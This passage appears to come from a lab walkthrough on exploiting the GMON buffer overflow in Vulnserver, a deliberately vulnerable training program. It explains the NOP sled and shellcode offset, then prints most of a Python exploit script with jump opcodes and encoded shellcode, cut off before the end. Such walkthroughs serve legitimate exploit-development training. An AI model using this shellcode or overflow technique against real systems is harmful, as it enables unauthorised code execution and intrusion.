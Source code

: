 After jumping to the memory of ```ESP``` we will be in the region of ```NOP Sled``` passed from our script

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-2-nopjump.png">
</div>

## Exploitation

Our shellcode should be placed after ```1548 bytes``` in the exploit

Make sure you test it in debugger and add some extra padding NOPS if needed

Lets craft our final exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat exploit-1.py 
import socket, sys

# opcodes foe long jump to reach ESP+0xdc
long_jmp=b""
long_jmp+=b"\x83\xc4\x6e"
long_jmp+=b"\x83\xc4\x6e"
long_jmp+=b"\xff\x24\x24"

# shellcode
buf= b""
buf+=b"\xb8\xbb\xf1\x65\xd4\xdd\xc1\xd9\x74\x24\xf4\x5e\x31"
buf+=b"\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x55\x0d\x87"
buf+=b"\x21\x55\x06\xca\xca\xa5\xd7\xab\x43\x40\xe6\xeb\x30"
buf+=b"\x01\x59\xdc\x33\x47\x56\x97\x16\x73\xed\xd5\xbe\x74"
buf+=b"\x46\x53\x99\xbb\x57\xc8\xd9\xda\xdb\x13\x0e\x3c\xe5"
buf+=b"\xdb\x43\x3d\x22\x01\xa9\x6f\xfb\x4d\x1c\x9f\x88\x18"
buf+=b"\x9d\x14\xc2\x8d\xa5\xc9\x93\xac\x84\x5c\xaf\xf6\x06"
buf+=b"\x5f\x7c\x83\x0e\x47\x61\xae\xd9\xfc\x51\x44\xd8\xd4"
buf+=b"\xab\xa5\x77\x19\x04\x54\x89\x5e\xa3\x87\xfc\x96\xd7"
buf+=b"\x3a\x07\x6d\xa5\xe0\x82\x75\x0d\x62\x34\x51\xaf\xa7"
buf+=b"\xa3\x12\xa3\x0c\xa7\x7c\xa0\x93\x64\xf7\xdc\x18\x8b"
buf+=b"\xd7\x54\x5a\xa8\xf3\x3d\x38\xd1\xa2\x9b\xef\xee\xb4"
buf+=b"\x43\x4f\x4b\xbf\x6e\x84\xe6\xe2\xe6\x69\xcb\x1c\xf7"
buf+=b"\xe5\x5c\x6f\xc5\xaa\xf6\xe7\x65\x22\xd1\xf0\x8a\x19"
buf+=b"\xa5\x6e\x75\xa2\xd6\xa7\xb2\xf6\x86\xdf\x13\x77\x4d"
buf+=b"\x1f\x9b\xa2\xc2\x4f\x33\x1d\xa3\x3f\xf3\xcd\x4b\x55"
buf+=b"\xfc\x32\x6b\x56\xd6\x5a\x06\xad\xb1\xa4\x7f\xd9\xc1"
buf+=b"\x4d\x82\x21\xe4\x19\x0b\xc7\x82\x31\x5a\x50\x3b\xab"
buf+=b"\xc7\x2a\xda\x34\xd2\x57\xdc\xbf\xd1\xa8\x93\x37\x9f"
buf+=b"\xba\x44\xb8\xea\xe0\xc3\xc7\xc0\x8c\x88\x5a\x8f\x4c"
buf+=b"\xc6\x46\x18\x1b\x8f\xb9\x51\xc9\x3d\xe3\xcb\xef\xbf"
buf+=b"\x75\x33\xab\x1b\x46\xba\x32\xe9\xf2\x98\x24\x37\xfa"
buf+=b"\xa4\x10\xe7\xad\x72\xce\x41\x04\x35\xb8\x1b\xfb\x9f"
buf+=b"\x2c\xdd\x37\x20\x2a\xe2\x1d\xd6\xd2\x53\xc8\xaf\xed"
```